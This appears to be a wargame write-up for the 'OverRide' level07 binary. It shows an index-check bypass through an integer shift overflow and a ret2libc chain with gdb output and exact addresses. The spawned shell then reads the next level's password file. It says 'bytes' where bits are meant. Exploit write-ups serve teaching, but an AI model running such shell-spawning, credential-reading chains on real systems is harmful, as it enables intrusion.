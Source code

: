 Running this binary, we get : 

	level07@OverRide:~$ ./level07 
	----------------------------------------------------
	Welcome to wil's crappy number storage service!   
	----------------------------------------------------
	Commands:                                          
		store - store a number into the data storage    
		read  - read a number from the data storage     
		quit  - exit the program                        
	----------------------------------------------------
	wil has reserved some storage :>                 
	----------------------------------------------------

	Input command: 

We can store one numbe at a time in a given index. There is a security that prevents using any index divisible by 3 though, so index 0, 3, 6, etc..., are unwritable. Also, we can't access environment variables, so we won't be able to store a payload there. The most obvious thing to do is a ret2libc, where we overflow the stack return address with another function, in our case a call to system with /bin/sh as argument.

First, we need to know where we can overwrite the return address. First of all, let's find it by setting a breakpoint at the end of our program and looking at eip :

	(gdb) b *main+718
	Breakpoint 3 at 0x80489f1
	[...]
	Breakpoint 3, 0x080489f1 in main ()
	(gdb) i r
	[...]
	eip            0x80489f1	0x80489f1 <main+718> <-- not this one
	[...]
	(gdb) si
	0xf7e45513 in __libc_start_main () from /lib32/libc.so.6
	(gdb) i r
	[...]
	eip            0xf7e45513	0xf7e45513 <__libc_start_main+243>
	[...]

The second one is the one we want : 0xf7e45513

We can also have a look at the stack by using an easily identifiable number, for instance 238 <=> 0xee (at the index 1 because we can't access 0)

	Input command: store
	Number: 238
	Index: 1

	Breakpoint 3, 0x080486d5 in store_number ()
	(gdb) x/100x $esp
	0xffffd4f0:	0x08048add	0xffffd544	0x00000000	0xf7e2b6c0
	0xffffd500:	0xffffd708	0xf7ff0a50	0x000000ee	0x00000001
	0xffffd510:	0x00000000	0xffffdfdc	0xffffd708	0x080488ef
	0xffffd520:	0xffffd544	0x00000014	0xf7fcfac0	0xf7fdc714
	0xffffd530:	0x00000098	0xffffffff	0xffffd7fc	0xffffd7a8
	0xffffd540:	0x00000000	0x00000000	0x000000ee	0x00000000 <------ here
	0xffffd550:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd610:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd620:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000

Lets find its address :

	(gdb) x 0xffffd548
	0xffffd548:	0x000000ee

If we keep going a bit further, we can find the eip return value we saw earlier :

	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6d0:	0x00000000	0x00000001	0x726f7473	0x00000065
	0xffffd6e0:	0x00000000	0x00000000	0x00000000	0x4cfa9200
	0xffffd6f0:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
	0xffffd700:	0x00000000	0x00000000	0x00000000	0xf7e45513 <----- return address
	0xffffd710:	0x00000001	0xffffd7a4	0xffffd7ac	0xf7fd3000
	0xffffd720:	0x00000000	0xffffd71c	0xffffd7ac	0x00000000
	0xffffd730:	0x080482b8	0xf7fceff4	0x00000000	0x00000000
	0xffffd740:	0x00000000	0xfe293c18	0xc92eb808	0x00000000
	0xffffd750:	0x00000000	0x00000000	0x00000001	0x08048510
	0xffffd760:	0x00000000	0xf7ff0a50	0xf7e45429	0xf7ffcff4
	0xffffd770:	0x00000001	0x08048510	0x00000000	0x08048531
	0xffffd780:	0x08048723	0x00000001	0xffffd7a4	0x08048a00
	0xffffd790:	0x08048a70	0xf7feb620	0xffffd79c	0xf7ffd918
	0xffffd7a0:	0x00000001	0xffffd8cc	0x00000000	0xffffd8e8
	0xffffd7b0:	0xffffd8f8	0xffffd90c	0xffffd92f	0xffffd942
	0xffffd7c0:	0xffffd94f	0xffffde70	0xffffde7c	0xffffdec9
	0xffffd7d0:	0xffffdee0	0xffffdeef	0xffffdf07	0xffffdf18
	0xffffd7e0:	0xffffdf21	0xffffdf3a	0xffffdf42	0xffffdf54
	0xffffd7f0:	0xffffdf64	0xffffdf9a	0xffffdfba	0x00000000
	0xffffd800:	0x00000020	0xf7fdb430	0x00000021	0xf7fdb000

Again, we get its address :

	(gdb) x 0xffffd70c
	0xffffd70c:	0xf7e45513

We stored the number ee at index 1, So we can know where is located the return address with a simple substraction : 0x70c - 0x548 = 0x1c4, 452 in decimal. One index can store 4 bytes, so if we divide it by 4 we get index 113. Let's keep in mind that we used index 1 instead of 0, so we need to add 1 to the result, we get the index 114.

Let's try to store something here to see what happens :

	Input command: store
	Number: 1111
	Index: 114
	*** ERROR! ***
	This index is reserved for wil!
	*** ERROR! ***
	Failed to do store command

Of course 114 % 3 = 0, so we can't write in there. However, there is one specific line in store_number that is interesting :

   0x080486c5 <+149>:	shl    $0x2,%eax

Basically, to go from indexes to bytes the binary will byteshift to the left twice (equivalent to multiply by 4).

114 in binary is 1110010, the 32bit repr is 00000000000000000000000001110010

If we byteshift left twice, we get : 00000000000000000000000111001000 (456 in dec, obviously).
But here's the thing : The 2 most significant bytes are removed. That means whatever is stored in them won't have an impact on the final result. Let's take our 114 in 32-bit repr, and add a 1 at the second MSB (to avoid negative numbers). We now get :

	01000000000000000000000001110010

This is equal to 1073741938 in decimal. That means byteshifting twice this number will yield the same result as byteshifting twice 114. By passing this number, we can access the index 114 (note that this number is not divisible by 3 itself, otherwise we still could not access index 114). Let's check it :

	Input command: store
	Number: 1234 
	Index: 1073741938
	Completed store command successfully
	Input command: read
	Index: 114
	Number at data[114] is 1234
	Completed read command successfully
	Input command: quit
	Segmentation fault (core dumped)

	level07@OverRide:~$ dmesg
	[...]
	[24161.934779] level07[3134]: segfault at 4d2 ip 00000000000004d2 sp 00000000ffffd730 error 14 in level07[8048000+1000]

0x4d2 <=> 1234, this way we can sucessfully store anything we want at the index 114.

Now, we just have to find the adresses of system, "/bin/sh", and exit (to gracefully exit the program, because segfaults can be detected).

[source](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) info proc map
process 1936
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec
1 pattern found.

Now we need to convert these addresses to decimal and store them using the binary :

system :    0xf7e6aed0 <=> 4159090384
exit :      0xf7e5eb70 <=> 4159040368
/bin/sh :   0xf7f897ec <=> 4160264172

level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

